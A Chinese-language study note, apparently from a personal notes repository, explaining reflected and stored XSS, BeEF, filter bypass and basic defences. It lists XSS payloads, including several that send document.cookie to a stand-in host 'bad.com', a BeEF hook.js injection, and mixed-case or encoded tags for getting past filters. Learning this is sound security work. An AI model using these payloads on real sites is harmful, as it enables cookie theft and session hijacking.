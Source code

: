 ```yaml
---
title: Security-5
description: XSS
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

- XSS：Cross Site Scripting, 跨域脚本
- 攻击客户端，而不是服务器
- 可以用来获取 Cookie
- 如果服务器没有对用户提交的文本数据进行过滤或转义，用户就可以提交 JS 脚本，使其他用户在浏览器上执行此脚本
- 类型
  - 反射型
  - 存储型

## 反射型

- 不会被存到服务器
- 通过 URL 重写网页内容
- 然后把 URL 发给其他用户，其他用户打开之后会中招

## 存储型

- 会存到服务器
- 其他用户访问到这些数据时就会中招

## 常用标签

- `iframe`
  - 可以用来加载一个网页，使用户混淆页面
  - 也可以把 iframe 的大小设置为很小，隐蔽地加载一个页面
  - 也可以用来收集 Cookie: `<iframe src="'http://bad.com?cookie=' + document.cookie" />`
- `script`
  - 重定向 URL，比如`window.location = xxx.com`
  - 弹出提示：`alert('网站升级，请使用我们的新网站：xxx.com')`
  - 获取 Cookie: `document.cookie`
  - 发送 Cookie
    - `window.open('bad.com?cookie=' + document.cookie)`
    - `document.location = 'bad.com?cookie=' + document.cookie`
    - `new Image().src='bad.com?cookie=' + document.cookie; img.width = img.height = 0`
- `textarea`
- `img`
  - `<img src="#" onerror=alert('xss') />`
  - `<img src="javascript:alert('xss')" />`
  - `<img src="http://heef-ip:3000/hook.js" />`
  - `<img src="'http://bad.com?cookie=' + document.cookie">`

## 自动 XSS

使用 BeEF 工具：[Browser Exploitation Framework](https://beefproject.com)

- 基于 Ruby 开发，有 GUI
- 信息收集
  - 网络发现
  - 主机信息
  - Cookie 获取
  - 会话劫持
  - 键盘记录
  - 插件信息
- 持久化控制
  - 弹窗
  - 小窗口
  - 中间人
- 社会工程
  - 点击劫持
  - 弹窗告警
  - 虚假页面
  - 钓鱼页面
- 渗透
  - 内网渗透
  - Metasploit
  - CSRF
  - DDOS

只要把`http://ip:port/hook.js`成功注入即可

命令颜色：

- 绿色：生效且不会被发现
- 橙色：生效，但可能被发现
- 灰色：未必生效
- 红色：不生效

## 绕过简单检测

- 使用大小写不确定的标签：`<ScRiPt>xxx</sCrIpT>`
- 使用 URL/Base64/Unicode 等编码

## 防护

- 对用户提交的文本进行过滤或转义
- 不要把用户提交的文本作为 inner HTML
